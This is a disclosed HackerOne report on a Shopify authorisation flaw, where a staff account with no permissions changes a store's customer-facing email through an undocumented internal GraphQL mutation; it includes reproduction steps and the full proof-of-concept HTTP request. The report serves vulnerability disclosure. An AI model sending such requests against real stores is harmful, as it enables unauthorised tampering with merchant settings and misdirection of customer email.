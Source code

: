# A staff member with no permissions can edit Store Customer Email

## Report Details
- **Report ID**: 980511
- **URL**: https://hackerone.com/reports/980511
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-09-12T07:24:44.376Z
- **Disclosed**: 2020-10-22T18:41:03.511Z

## Reporter
- **Username**: ash_nz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
## Impact
A staff member with no permissions can edit a store `Customer email` which they have no access to. This is the email that the store customers will see when emailing them.

## Details
`emailSenderConfigurationUpdate` is an undocumented GraphQL API that will allows a malicious staff member in a store to update the `Customer Email`. This email configuration can be found in the general settings in your store. The following screenshot shows the details.
██████████

To reproduce this finding you will need two accounts in your store. One is the Owner and the other is an account that you invite as a staff member with no permissions. The following screenshot shows the accounts setup.
{F985090}
{F985089}

1. login as the Staff user and send the following mutation GraphQL request.

```http
POST /admin/internal/web/graphql/core HTTP/1.1
Cookie: [REDACTED]
accept: application/json
X-CSRF-Token: [REDACTED]
Content-Type: application/json
User-Agent: PostmanRuntime/7.26.5
Postman-Token: 082760e7-3dac-481e-8741-50cb2cc61617
Host: [YOUR-DOMAIN].myshopify.com
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 346

{"query":"\r\nmutation emailSenderConfigurationUpdate ($input:EmailSenderConfigurationUpdateInput!){  emailSenderConfigurationUpdate(input:$input) {\r\n    emailSenderConfiguration{\r\n        id\r\n    }\r\n\r\nuserErrors {\r\n    field\r\n    message\r\n}\r\n}\r\n}","variables":{
  "input":{
      "senderEmail":"███"
  }
}}
```
2. Login with the Owner account and check the `Store details`,the `Customer email` should be updated with the new email address.

## Impact

A staff member with no permissions can edit a store `Customer email` which they have no access to. This is the email that the store customers will see when emailing them.

## Attachments
- permissions.PNG
- accounts.PNG
